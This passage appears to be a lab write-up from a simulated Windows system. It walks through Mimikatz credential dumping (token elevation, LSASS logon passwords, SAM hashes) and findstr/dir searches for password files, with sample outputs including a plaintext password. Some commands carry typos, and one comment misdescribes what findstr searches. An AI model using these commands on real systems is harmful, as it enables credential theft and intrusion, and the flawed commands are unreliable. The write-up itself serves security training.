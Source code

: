 ```
token::elevate
```

  Output:

<img width="3714" height="571" alt="image" src="https://github.com/user-attachments/assets/5bb78e68-87e3-45bf-a7fc-4b0865e71b6c" />

- Now the passwords can be dumped using 'sekurlsa', which interacts with the LSASS to extract this information.

```
serkurlsa::logonpasswords
```

  Output: P@ssw0rd!

  (The short list is due to the simulation system having only one user. For a wider network in the real   world, the list would be longer, with much more exploitation possible.) 

2. SAM Dump:

- The Security Account Manager (SAM) is a database storing all of the usernames and password hashes for local accounts on a machine. Its legitimate purpose is to authenticate users who are logging onto the device. By using Mimikatz, this information can be used to obtain further privileged access to the system.

```
lsadump:sam
```

  Output:

<img width="3840" height="2160" alt="sam" src="https://github.com/user-attachments/assets/28adc5e4-8293-46b5-b353-ee8d848e0ccd" />

3. Location Finder:

- The command prompt can be used to search for files that contain strings, such as 'password', in their names, leading malicious actors to possible locations of credentials.

```
findstr /si password *.txt
findstr /si password *.xml *.ini *.txt #searches for files ending with .xml/.ini/.txt that contain 'password' in their name throughout all files on the system
```

<img width="3840" height="2160" alt="all partition files that conatin password" src="https://github.com/user-attachments/assets/4361ac6c-bfc4-41a8-959e-005630617db5" />

- Instead of just files, the directories, their corresponding files, and the date and time of creation can be found through the code below:

```
dir /s *pass* == *cred* == *vnc* == *.config* #searches through directories for files containing 'pass'/'cred'/'vnc' in its name
```

- This allows for malicious users to find the newest credentials that will be more useful for them than the older, potentially out-of-date information.

  Output: 
